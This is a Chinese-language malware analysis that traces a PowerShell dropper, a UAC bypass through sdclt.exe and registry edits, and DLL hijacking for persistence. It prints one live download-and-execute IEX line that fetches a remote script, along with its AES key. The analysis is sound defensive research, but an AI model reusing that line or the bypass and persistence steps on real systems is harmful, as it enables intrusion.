 加密前的PowerShell脚本：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t010c07d2c162c36a18.png)

使用0xA9异或解密后的PowerShell脚本文件如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01c3711c500ba6cdb7.png)

[![](https://p4.ssl.qhimg.com/t018598bcfb4a270e57.png)](https://p4.ssl.qhimg.com/t018598bcfb4a270e57.png)

将混淆后的PowerShell脚本解密后如下：

[![](https://p0.ssl.qhimg.com/t010d2b5bc7b3a50584.png)](https://p0.ssl.qhimg.com/t010d2b5bc7b3a50584.png)

IEx($url=’http://********ents.com/melon322/search.php?name=180322-16′;$key=’Lq5846yGptowMcuLyQBcdw+vgnKl7aA0lTBUV4QkShs=’; $wc = New-Object Net.WebClient; $wc.Headers[“User-Agent”] = “Mozi11a/4.0″; $a=$wc.DownloadString($url);$a) ”



### Dropper

解密后的PowerShell脚本就是一个Dropper，该脚本会将UserAgent设置为Mozi11a/4.0然后去下载下一步的PowerShell脚本执行：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t016018972a04aeaa27.png)

再次下载回来的PowerShell脚本也是经过混淆的，去混淆分析整理后的功能主要是绕过UAC后去下载msfte.dll到系统的system32目录下，下载NTWDBLIB.DLL文件到系统的system32目录下，通过cliconfg.exe白利用加载NTWDBLIB.DLL来修改msfte.dll的宿主服务WSearch成自动开启状态，实现msfte.dll的持久化驻留主要功能如下：

**Bypass UAC**

样本首先通过修改注册表HKCU:\Software\Classes\exefile\shell\runas\command的值，指向需要运行的进程路径（PowerShell），再运行sdclt.exe触发执行起来的进程以实现Bypass UAC：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t017318ca1116532efa.png)

**劫持系统模块**

Bypass UAC后的PowerShell脚本会伪装UserAgent后去下载msfte.dll和NTWDBLIB.DLL这两个文件，然后通过AES解密到%temp%目录下，密钥为’Lq5846yGptowMcuLyQBcdw+vgnKl7aA0lTBUV4QkShs=’：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01eda5eb49ed5270fc.png)

使用PowerShell-Suite模块分别把temp目录下的msfte.dll和NTWDBLIB.DLL移动到system32目录下（因为当前执行的powershell的进程是bypass uac起来的，所以可以成功移动到系统目录下）。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01fc43a4738eabdc50.png)
